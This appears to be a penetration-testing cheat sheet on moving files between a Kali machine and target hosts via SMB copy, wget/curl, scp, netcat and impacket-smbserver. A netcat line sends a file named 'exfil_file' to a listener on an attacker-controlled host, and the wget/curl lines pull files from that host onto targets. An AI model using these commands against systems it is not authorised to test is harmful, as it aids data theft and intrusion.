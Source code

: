 ### SMB

Copy files from Kali to Windows:
```
copy \\$lhost\sharename\file.ext file.ext
```

Copy file from Windows to Kali:
```
copy file.ext \\$lhost\sharename\file.ext
```


## Linux

```
wget http://$lhost:$lport/file.ext
curl http://$lhost:$lport/file.ext -o /path/to/file.ext
```

### SCP

Credits:
[How to Use SCP Command for File Transfer](https://www.hostinger.com/tutorials/using-scp-command-to-transfer-files/#:~:text=SCP%20(secure%20copy%20protocol)%20is,for%20your%20data%20and%20credentials.)

Copying from a local server to a remote host and can use `-r` to copy multiple files or subdirectories:
```
scp -P [-r] 2222 /users/Hostinger/desktop/scp.zip root@191.162.0.2:/writing/article
```

Transferring a Remote File to a Local Machine
```
scp root@191.162.0.2:/writing/articles/SCP.zip Users/Hostinger/Desktop
```

Safely Moving a File Between Remote Hosts
```
scp root@191.162.0.2:/writing/article/scp.zip hostinger@11.10.0.1:/publishing
```

### nc
Machine that you have a file:
```
nc -lvnp $lport > new_file
```

Machine that you want a file to be transfered:
```
nc -vn <IP> $lport < exfil_file
```

### SMB

Via set a smbserver impacket-smbserver:
```
impacket-smbserver -smb2support sharename /path/to/share
```

Then, use copy to get the file
